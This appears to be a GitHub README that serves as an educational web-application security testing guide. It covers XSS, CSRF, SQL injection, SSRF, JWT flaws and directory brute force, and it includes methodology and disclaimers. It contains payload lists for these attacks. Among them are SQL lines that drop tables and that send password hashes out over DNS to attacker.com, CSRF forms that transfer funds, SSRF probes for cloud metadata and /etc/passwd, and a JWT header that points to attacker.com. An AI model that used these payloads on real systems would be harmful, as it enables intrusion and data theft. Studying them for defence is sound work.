# Web Application Security Research & Attack Methodologies

**Author:** S. Tamilselvan - Security Researcher  
**Project:** Comprehensive Web Application Security Testing Framework  
**Version:** 1.0  
**Last Updated:** 2024

---

## 📋 Table of Contents

1. [Project Overview](#project-overview)
2. [Attack Types Covered](#attack-types-covered)
3. [XSS (Cross-Site Scripting)](#xss-cross-site-scripting)
4. [CSRF (Cross-Site Request Forgery)](#csrf-cross-site-request-forgery)
5. [SQL Injection](#sql-injection)
6. [SSRF (Server-Side Request Forgery)](#ssrf-server-side-request-forgery)
7. [Directory Brute Force](#directory-brute-force)
8. [JWT Token Misconfigurations](#jwt-token-misconfigurations)
9. [Additional Attack Vectors](#additional-attack-vectors)
10. [Testing Methodology](#testing-methodology)
11. [Tools & Resources](#tools--resources)
12. [Disclaimer](#disclaimer)

---

## 🎯 Project Overview

This repository contains comprehensive research and methodologies for identifying and exploiting various web application security vulnerabilities. The project serves as an educational resource for security researchers, penetration testers, and developers to understand common attack vectors and their mitigation strategies.

### 🎯 Objectives
- Document common web application vulnerabilities
- Provide step-by-step attack methodologies
- Create visual flowcharts for attack processes
- Offer practical examples and proof-of-concepts
- Establish testing frameworks for security assessment

---

## 🔍 Attack Types Covered

| Attack Type | Severity | Frequency | Impact |
|-------------|----------|-----------|---------|
| SQL Injection | Critical | High | Data Breach, System Compromise |
| XSS (Cross-Site Scripting) | High | Very High | Session Hijacking, Data Theft |
| CSRF (Cross-Site Request Forgery) | Medium | Medium | Unauthorized Actions |
| SSRF (Server-Side Request Forgery) | High | Medium | Internal Network Access |
| Directory Brute Force | Medium | High | Information Disclosure |
| JWT Misconfigurations | High | Medium | Authentication Bypass |
| Command Injection | Critical | Medium | System Compromise |
| File Upload Vulnerabilities | High | Medium | Remote Code Execution |

---

## 🚨 XSS (Cross-Site Scripting)

### Overview
Cross-Site Scripting (XSS) attacks occur when an application includes untrusted data in a web page without proper validation or escaping.

### Types of XSS

#### 1. Reflected XSS
```
User Input → Server Processing → Immediate Response → Script Execution
```

#### 2. Stored XSS
```
Malicious Input → Database Storage → Page Rendering → Script Execution
```

#### 3. DOM-based XSS
```
Client-Side Processing → DOM Manipulation → Script Execution
```

### XSS Attack Flowchart



### Common XSS Payloads

```javascript
// Basic XSS
<script>alert('XSS')</script>

// Event-based XSS


// JavaScript URL
javascript:alert('XSS')

// SVG XSS
<svg onload=alert('XSS')>

// Bypass Filters
<ScRiPt>alert('XSS')</ScRiPt>
```

### XSS Testing Methodology

1. **Input Identification**
   - Form fields
   - URL parameters
   - HTTP headers
   - Cookie values

2. **Payload Testing**
   - Basic script tags
   - Event handlers
   - JavaScript URLs
   - Data URIs

3. **Context Analysis**
   - HTML context
   - Attribute context
   - JavaScript context
   - CSS context

---

## 🔒 CSRF (Cross-Site Request Forgery)

### Overview
CSRF attacks force authenticated users to execute unwanted actions on web applications where they're authenticated.

### CSRF Attack Flowchart



### CSRF Attack Examples

```html
<!-- GET-based CSRF -->


<!-- POST-based CSRF -->
<form action="http://vulnerable-site.com/transfer" method="POST">
    <input type="hidden" name="amount" value="1000" />
    <input type="hidden" name="to" value="attacker" />
    <input type="submit" value="Click me!" />
</form>

<!-- JavaScript CSRF -->
<script>
fetch('http://vulnerable-site.com/api/transfer', {
    method: 'POST',
    credentials: 'include',
    body: JSON.stringify({amount: 1000, to: 'attacker'}),
    headers: {'Content-Type': 'application/json'}
});
</script>
```

---

## 💉 SQL Injection

### Overview
SQL Injection occurs when user input is improperly sanitized and directly concatenated into SQL queries.

### SQL Injection Types

1. **Classic SQL Injection**
2. **Blind SQL Injection**
3. **Time-based Blind SQL Injection**
4. **Union-based SQL Injection**
5. **Error-based SQL Injection**

### SQL Injection Attack Flowchart



### Common SQL Injection Payloads

```sql
-- Basic Authentication Bypass
' OR '1'='1' --
' OR 1=1 --
admin'--

-- Union-based Injection
' UNION SELECT 1,2,3,4 --
' UNION SELECT null,username,password,null FROM users --

-- Error-based Injection
' AND (SELECT COUNT(*) FROM information_schema.tables) --
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e)) --

-- Time-based Blind Injection
' AND (SELECT SLEEP(5)) --
'; WAITFOR DELAY '00:00:05' --

-- Boolean-based Blind Injection
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' --
```

---

## 🌐 SSRF (Server-Side Request Forgery)

### Overview
SSRF vulnerabilities allow attackers to make requests from the vulnerable server to internal or external resources.

### SSRF Attack Flowchart



### SSRF Payloads

```
# Internal Network Scanning
http://127.0.0.1:80
http://localhost:22
http://192.168.1.1:80
http://10.0.0.1:3306

# Cloud Metadata
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/

# Protocol Variations
file:///etc/passwd
gopher://127.0.0.1:6379/_INFO
dict://127.0.0.1:11211/stats

# Bypass Techniques
http://127.1:80
http://0x7f000001:80
http://2130706433:80
```

---

## 📁 Directory Brute Force

### Overview
Directory brute force attacks attempt to discover hidden directories and files on web servers.

### Directory Brute Force Flowchart



### Directory Brute Force Tools & Wordlists

```bash
# Common Tools
gobuster dir -u http://target.com -w /path/to/wordlist
dirb http://target.com /path/to/wordlist
dirsearch -u http://target.com -w /path/to/wordlist

# Common Directories
/admin
/backup
/config
/database
/logs
/test
/dev
/api
/uploads
/.git
```

---

## 🔑 JWT Token Misconfigurations

### Overview
JSON Web Tokens (JWT) vulnerabilities arise from improper implementation, weak secrets, or algorithm confusion.

### JWT Attack Flowchart



### JWT Attack Techniques

```javascript
// None Algorithm Attack
{
  "alg": "none",
  "typ": "JWT"
}

// Algorithm Confusion (RS256 to HS256)
// Use public key as HMAC secret

// Weak Secret Brute Force
const secrets = ['secret', '123456', 'password', 'jwt_secret'];

// JKU Header Manipulation
{
  "alg": "RS256",
  "jku": "http://attacker.com/jwks.json"
}

// Kid Parameter Injection
{
  "alg": "HS256",
  "kid": "../../../public/key.pem"
}
```

---

## 🔧 Additional Attack Vectors

### Command Injection



### File Upload Vulnerabilities



---

## 🧪 Testing Methodology

### 1. Reconnaissance Phase


### 2. Vulnerability Assessment


### 3. Exploitation Phase


### 4. Post-Exploitation


---

## 🛠️ Tools & Resources

### Automated Scanners
- **OWASP ZAP** - Web application security scanner
- **Burp Suite** - Web vulnerability scanner
- **Nikto** - Web server scanner
- **SQLMap** - SQL injection tool

### Manual Testing Tools
- **Burp Suite Professional** - Manual testing proxy
- **OWASP WebGoat** - Vulnerable application for practice
- **Damn Vulnerable Web Application (DVWA)** - Practice environment
- **Postman** - API testing tool

### Wordlists & Payloads
- **SecLists** - Security testing wordlists
- **PayloadsAllTheThings** - Payload repository
- **FuzzDB** - Attack patterns database
- **OWASP Testing Guide** - Testing methodology

### Custom Scripts
```bash
# XSS Testing Script
#!/bin/bash
payloads=("<script>alert('XSS')</script>" "")
for payload in "${payloads[@]}"; do
    curl -X POST -d "input=$payload" http://target.com/search
done

# SQL Injection Testing
#!/bin/bash
sqlpayloads=("' OR '1'='1' --" "' UNION SELECT 1,2,3 --")
for payload in "${sqlpayloads[@]}"; do
    curl "http://target.com/login?username=admin&password=$payload"
done
```

---

## 📊 Vulnerability Assessment Matrix

| Vulnerability | CVSS Score | Exploitability | Impact | Detection Difficulty |
|---------------|------------|----------------|---------|---------------------|
| SQL Injection | 9.0 | High | Critical | Medium |
| XSS | 7.5 | High | High | Easy |
| CSRF | 6.5 | Medium | Medium | Medium |
| SSRF | 8.0 | Medium | High | Hard |
| JWT Misconfiguration | 7.0 | Medium | High | Medium |
| Command Injection | 9.5 | High | Critical | Medium |
| File Upload | 8.5 | High | Critical | Easy |

---

## 🔍 Research Methodology

### Phase 1: Information Gathering
1. **Target Analysis**
   - Domain enumeration
   - Technology identification
   - Service discovery
   - Architecture analysis

2. **Attack Surface Mapping**
   - Input parameter identification
   - Authentication mechanisms
   - Session management
   - API endpoints

### Phase 2: Vulnerability Discovery
1. **Automated Testing**
   - Vulnerability scanners
   - Fuzzing tools
   - Static analysis
   - Dynamic analysis

2. **Manual Testing**
   - Logic flaw identification
   - Business logic testing
   - Custom payload development
   - Edge case analysis

### Phase 3: Exploitation & Impact
1. **Proof of Concept Development**
   - Exploit creation
   - Payload refinement
   - Bypass technique development
   - Automation scripting

2. **Impact Assessment**
   - Data exposure analysis
   - System compromise evaluation
   - Business impact calculation
   - Risk rating assignment

---

## 📈 Security Testing Checklist

### Pre-Testing Phase
- [ ] Obtain proper authorization
- [ ] Define scope and limitations
- [ ] Set up testing environment
- [ ] Prepare testing tools
- [ ] Document baseline security posture

### Testing Phase
- [ ] Perform reconnaissance
- [ ] Conduct vulnerability assessment
- [ ] Execute manual testing
- [ ] Validate findings
- [ ] Document evidence

### Post-Testing Phase
- [ ] Compile comprehensive report
- [ ] Provide remediation guidance
- [ ] Conduct risk assessment
- [ ] Present findings to stakeholders
- [ ] Support remediation efforts

---

## 🚀 Advanced Attack Techniques

### 1. Polyglot Payloads
```javascript
// XSS + SQL Injection Polyglot
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>
```

### 2. WAF Bypass Techniques
```javascript
// Case variation
<ScRiPt>alert(1)</ScRiPt>

// Encoding
%3Cscript%3Ealert(1)%3C/script%3E

// HTML entities
&lt;script&gt;alert(1)&lt;/script&gt;

// Unicode
\u003cscript\u003ealert(1)\u003c/script\u003e
```

### 3. Advanced SQL Injection
```sql
-- Stacked queries
'; DROP TABLE users; --

-- Out-of-band data exfiltration
'; SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\test.txt')); --

-- DNS exfiltration
'; SELECT LOAD_FILE(CONCAT('\\\\', (SELECT HEX(password) FROM users WHERE id=1), '.dns.attacker.com\\test')); --
```

---

## 📚 Educational Resources

### Books
- "The Web Application Hacker's Handbook" by Dafydd Stuttard
- "OWASP Testing Guide v4"
- "SQL Injection Attacks and Defense" by Justin Clarke
- "XSS Attacks: Cross Site Scripting Exploits and Defense"

### Online Resources
- OWASP Top 10
- PortSwigger Web Security Academy
- HackerOne Hacktivity
- Bug Bounty Platforms

### Practice Environments
- WebGoat
- Mutillidae
- bWAPP

---

## 🔒 Responsible Disclosure

### Guidelines
1. **Authorization**: Only test applications you own or have explicit permission to test
2. **Scope**: Stay within defined testing boundaries
3. **Impact**: Minimize potential damage during testing
4. **Documentation**: Maintain detailed records of testing activities
5. **Reporting**: Follow responsible disclosure practices

### Disclosure Timeline
1. **Day 0**: Vulnerability discovered
2. **Day 1-7**: Initial report to vendor
3. **Day 30**: Follow-up if no response
4. **Day 90**: Public disclosure consideration
5. **Day 180**: Full public disclosure

---

## 📞 Contact Information

**Security Researcher:** S. Tamilselvan  
**Specialization:** Web Application Security, Penetration Testing  
**Research Focus:** Advanced Attack Methodologies & Defense Strategies  

---

## ⚠️ Disclaimer

This repository is created for educational and research purposes only. The information, tools, and techniques described herein should only be used on systems you own or have explicit permission to test. 

**Important Notes:**
- Unauthorized access to computer systems is illegal
- Always obtain proper authorization before testing
- Use this information responsibly and ethically
- The author is not responsible for any misuse of this information
- This research is intended to improve security awareness and defense capabilities

**Legal Compliance:**
- Follow all applicable laws and regulations
- Respect privacy and confidentiality
- Adhere to responsible disclosure practices
- Maintain professional ethics in security research

---

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](https://cyberwolf-career-guidance.web.app/) file for details.

---

**Last Updated:** December 2025  
**Version:** 1.0  
**Maintained by:** S. Tamilselvan - Security Researcher

---

**Security is not a product, but a process.**
